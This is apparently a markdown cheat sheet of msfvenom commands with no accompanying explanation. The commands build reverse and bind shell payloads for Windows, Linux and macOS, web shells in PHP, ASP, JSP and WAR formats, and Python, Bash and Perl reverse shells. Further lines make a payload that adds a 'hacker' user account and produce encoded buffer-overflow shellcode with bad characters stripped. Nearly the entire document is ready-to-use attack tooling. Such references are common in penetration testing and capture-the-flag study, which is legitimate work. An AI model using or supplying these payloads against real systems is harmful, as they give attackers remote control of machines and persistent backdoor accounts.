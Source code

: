 - - -
## Windows : 

Revshells : 
```sh
msfvenom -p windows/meterpreter/reverse_tcp LHOST=IP LPORT=PORT -f exe > shell.exe     
msfvenom -p windows/shell/reverse_tcp LHOST=IP LPORT=PORT -f exe > shell.exe    
msfvenom -p windows/×64/shell_reverse_tcp  LHOST=<OUR_IP>  LPORT=53  -f  aspx -o payload.aspx
msfvenom -p windows/meterpreter/bind_tcp RHOST= IP LPORT=PORT -f exe > shell.exe
```

For adding a new user : 
```sh
msfvenom -p windows/adduser USER=hacker PASS=password -f exe > useradd.exe
```

## Linux : 

Revshells : 
```sh
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=IP LPORT=PORT -f elf > shell.elf    
msfvenom -p linux/x64/shell_reverse_tcp RHOST=IP LPORT=PORT -f elf > shell.elf
msfvenom -p linux/x86/meterpreter/bind_tcp RHOST=IP LPORT=PORT -f elf > shell.elf    
msfvenom -p linux/x64/shell_bind_tcp RHOST=IP LPORT=PORT -f elf > shell.elf    
```

## Mac : 

```sh
msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f macho > shell.macho
```

- - -
## Scripting Languages Based : 
<br>

##### php : 
```sh
msfvenom -p php/meterpreter_reverse_tcp LHOST= LPORT= -f raw > shell.php
```

##### Python : 
```sh
msfvenom -p cmd/unix/reverse_python LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.py
```

##### Bash : 
```sh
msfvenom -p cmd/unix/reverse_bash LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.sh
```

#####  Perl : 
```sh
msfvenom -p cmd/unix/reverse_perl LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.pl
```

##### ASP : 
```sh
msfvenom -p windows/meterpreter/reverse_tcp LHOST= LPORT= -f asp > shell.asp
```

##### JSP : 
```sh
msfvenom -p java/jsp_shell_reverse_tcp LHOST= LPORT= -f raw > shell.jsp
```

##### War : 
```sh
msfvenom -p java/jsp_shell_reverse_tcp LHOST= LPORT= -f war > shell.war
```

- - -
#### Payload with an encoder while removing bad charecters : 

(Buffer_Overflow) : 
```sh
msfvenom -p windows/shell_reverse_tcp EXITFUNC=process LHOST=IP LPORT=PORT -f c -e x86/shikata_ga_nai -b "\x0A\x0D"
```

- - -


